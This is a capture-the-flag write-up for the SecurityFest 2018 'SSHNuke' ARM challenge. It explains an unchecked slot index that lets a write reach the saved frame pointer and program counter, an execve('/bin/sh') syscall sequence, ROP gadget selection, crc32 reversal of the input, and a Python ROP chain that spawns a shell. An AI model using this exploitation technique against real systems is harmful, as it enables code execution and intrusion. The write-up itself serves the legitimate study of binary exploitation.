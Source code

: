# SSHNuke
This is ARM ROP task.

![](/images/SecurityFestCTF2018/sshnuke/01.png)

For comfortable debugging I was using Azeria-Lab-v1 VM from https://azeria-labs.com/arm-lab-vm/


Vulnerability is in store function - no check for max slot value, slots array size = 12 => overflow. 

slots[13] = bp (frame pointer, analogue of ebp) 

slots[14] = pc (program counter, analogue of eip)

Same vulnerability in read_store function => can leak, but ASLR was off, so leak was not needed.


On ARM syscall execve got following structure:

```
syscall execve("/bin/sh", argv, env) => execve("/bin/sh", 0, 0)

add r0, 0x099014   ; /bin/sh addr
mov r1, #0
mov r2, #0
mov r7, #11        ; number of execve() syscall 
svc #0             ; syscall
```

0x099014 - is address where login string is placed:

![](/images/SecurityFestCTF2018/sshnuke/02.png)


Using ROPgadget I found required gadgets to make syscall execve("/bin/sh", 0, 0). 

There was no "pop {r2, pc}" gadget, so I used:

```
pop {r0, r4, pc}
mov r2, r4 ; blx r3
```

"blx r3" instruction will brunch at an address specified by a register r3 (analogue of call).


Also there are calculated crc32 hash of user input string in _do_store function.

![](/images/SecurityFestCTF2018/sshnuke/03.png)

So we have to do reverse crc32. I used script from https://github.com/theonlypwner/crc32/blob/master/crc32.py


Final rop:

```python
login('/bin/sh\x00')

store_data(14, crc32_reverse(pop_r1_pc), True, False)
store_data(15, crc32_reverse(0), True, True)
store_data(16, crc32_reverse(pop_r7_pc), True, True)
store_data(17, crc32_reverse(11), True, True)
store_data(18, crc32_reverse(pop_r3_pc), True, True)
store_data(19, crc32_reverse(svc_0), True, True)  
store_data(20, crc32_reverse(pop_r0_r4_pc), True, True)
store_data(21, crc32_reverse(login_str_addr), True, True)
store_data(22, crc32_reverse(0), True, True)
store_data(23, crc32_reverse(mov_r4_r2_blx_r3), False, True)
```

![](/images/SecurityFestCTF2018/sshnuke/04.png)
 


